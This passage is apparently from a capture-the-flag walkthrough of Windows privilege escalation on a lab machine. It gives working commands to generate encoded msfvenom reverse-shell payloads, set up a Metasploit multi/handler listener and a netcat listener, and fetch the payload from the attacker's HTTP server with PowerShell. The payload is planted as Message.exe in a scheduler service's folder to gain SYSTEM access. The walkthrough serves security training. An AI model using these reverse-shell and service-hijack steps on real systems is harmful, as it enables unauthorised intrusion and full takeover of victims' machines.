 Be sure to be in a writable directory.

Pass to shell

    shell
    .\winPEASx86.exe servicesinfo

You'll see the abnormal service is WindowsScheduler.

It is suggested to look at logs for the service so we can check in c:\Program Files (x86)\SystemScheduler\Events>

There is a log file and you'll notice there are references to Message.exe. That's the binary you're supposed to use to escalate privilege.

We could simply use a reverse shell again

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o Message.exe

Open another msfconsole and do

    msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST <ip>
    LHOST => 10.10.143.146
    msf6 exploit(multi/handler) > set LPORT <port>
    LPORT => 4446
    msf6 exploit(multi/handler) > run

In the other meterpreter upload the Reverse Shell binary Message.exe in C:\Program Files (x86)\SystemScheduler

After a while, you'll get another meterpreter shell in the second msfconsole with root permissions.

Just find the flag for the user Jeff and Administrator. They are both on Desktop.

## Privilege Escalation Without Metasploit

The process is the same but this time we need to generate a windows/shell_reverse_tcp and upload it.

    msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o reverse_tcp.exe

This will be served by the Python server running before. In the original reverse shell (the first) run

    powershell -c wget "http://<ip>:8000/reverse_tcp.exe" -outfile "reverse_tcp.exe"

On a different terminal run

    nc -lvnp <port>

and where you downloaded the file:

    reverse_tcp.exe

You'll have a shell and you can do exactly the same process with winPEAS uploaded in the same way.

To get the System time of installation do:

    systeminfo | findstr /i date




